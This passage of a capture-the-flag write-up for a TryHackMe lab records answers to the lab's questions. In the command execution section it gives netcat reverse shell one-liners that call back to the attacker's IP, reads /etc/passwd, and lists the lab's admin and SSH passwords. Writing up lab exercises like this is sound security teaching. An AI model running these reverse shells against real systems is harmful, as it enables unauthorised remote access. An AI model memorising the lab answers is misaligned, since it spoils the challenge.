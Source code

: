 ### 2. What is the admin password?
secretpass

### 3. How many forms of SQLI is the form vulnerable to?
3

## 5. Command Execution
link where we put commands: `http://IP/SOME_NUMBER.php`

we now run: `nc -nlvp 4242` on our machine, to listen for connections

-l: listen mode, for inbound connects

-n: numeric-only IP addresses, no DNS

-p: local port number

-v: verbose

and run this command in the administrator command box: `nc -e /bin/sh YOUR_IP 4242` [Source](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). well... that didn't work. let's try: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4242 >/tmp/f` [Source](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional)

Quick Tip: Get you ip by typing in `ifconfig`. Since we have connected to a VPN, we have to look at `tun0`. run: `ifconfig tun0` and the `destination` is your IP address. 

If that sounds complex, go to https://tryhackme.com/access with VPN connected, and it'll show you want you need.

Quick Note: you can choose any port, 4242 is arbitary :P

### 1. How many files are in the current directory?
run `ls` in the command form (even before we get access)

3

### 2. Do I still have an account?
`cat /etc/passwd` shows `pingu:x:1002:1002::/home/pingu:/bin/bash` at the end.

yes

### 3. What is my ssh password?
Traversing through the directory we have a user named `pingu`, and in the `.ssh` folder, we have `id_rsa` and `id_rsa.pub`. This is interesting.
But, for now lets focus on getting the password. Trying to seach using `find -u pingu` yields nothing. however, going around the directory we landed into shows a `hidden` folder; inside is our password! Its owned by `www-data` though ... hmmm ....

pinguapingu

### Having fun
running `ssh pingu@IP` gives us access to the machine, using the password above. and ... well maybe i got too excited
